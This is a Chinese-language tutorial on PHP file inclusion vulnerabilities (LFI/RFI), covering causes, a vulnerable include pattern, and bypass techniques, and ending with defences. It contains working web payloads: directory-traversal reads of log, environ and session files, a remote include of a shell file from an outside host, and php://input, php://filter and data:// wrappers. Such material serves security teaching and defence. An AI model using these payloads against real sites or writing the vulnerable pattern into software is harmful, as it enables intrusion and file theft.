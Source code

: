 

# 文件包含漏洞(LFI/RFI)

## 什么是文件包含

为了使代码具有更好的复用性，引入了文件包含函数，可以通过文件包含函数将文件包含进来，直接使用包含文件的代码

## 漏洞成因

在包含文件时候，为了灵活包含文件，将被包含文件设置为变量，通过动态变量来引入需要包含的文件时，用户可以对变量的值可控而服务器端未对变量值进行合理地校验或者校验被绕过，这样就导致了文件包含漏洞。通常文件包含漏洞出现在PHP语言中。

## 要点

文件包含可以包含任意文件，即便被包含的文件并不是与当前编程语言相关，甚至为图片，只要被包含的文件，其内容会被包含文件包含，并以包含文件当前语言执行

## 文件包含分类

文件包含可分为2个类别: 本地文件包含 `LFI(Local File Inclusion)`, 远程文件包含 `RFI(Remote File Inclusion)`

## 本地文件包含 `(LFI)`

能够读取或执行包含服务器本地文件以及资源

## 远程文件包含 `(RFI)`

能够读取或执行包含远程服务器的文件及资源, 利用针对的是`http`、`ftp`等协议

### 前置条件

需要在php.ini配置

- allow_url_fopen=On
- allow_url_include=On

## 利用函数

- PHP
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

## 文件包含形式

常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用系统环境 ``/proc/self/environ``
- 临时文件包含 ``/tmp``
- session文件 ``php的session文件的保存路径可以在phpinfo的session.save_path看到``
- 包含上传文件

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

## 绕过技巧

常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

### url编码绕过

如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

### 特殊字符绕过

- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

### %00截断

几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

### 长度截断

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 ``#define MAX_PATH 260``，其中第260个字符为字符串结尾的 ``\0`` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，``././././`` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

### 伪协议绕过

- 远程包含: 要求 ``allow_url_fopen=On`` 且 ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt`` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 的形式
- data: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

### 协议绕过

``allow_url_fopen`` 和 ``allow_url_include`` 主要是针对 ``http`` ``ftp`` 两种协议起作用，因此可以使用SMB、WebDav协议等方式来绕过限制。


## 防御

- 严格判断包含中的参数是否外部可控，因为文件包含漏洞利用成功与否的关键点就在于被包含的文件是否可被外部控制
- 路径限制：限制被包含的文件只能在某一文件内，一定要禁止目录跳转字符，如：`../`
- 包含文件验证：验证被包含的文件是否是白名单中的一员
- 尽量不要使用动态包含，可以在需要包含的页面固定写好，如：`include('head.php')`
- 必要时, 可将php.ini的配置选项allow_url_include，allow_url_fopen状态设置为OFF

## 参考链接

- [Exploit with PHP Protocols ](https://www.cdxy.me/?p=752)
- [lfi cheat sheet ](https://highon.coffee/blog/lfi-cheat-sheet/)
- [paper01](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)
- [paper02](https://ca0y1h.top/Web_security/basic_learning/13.%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)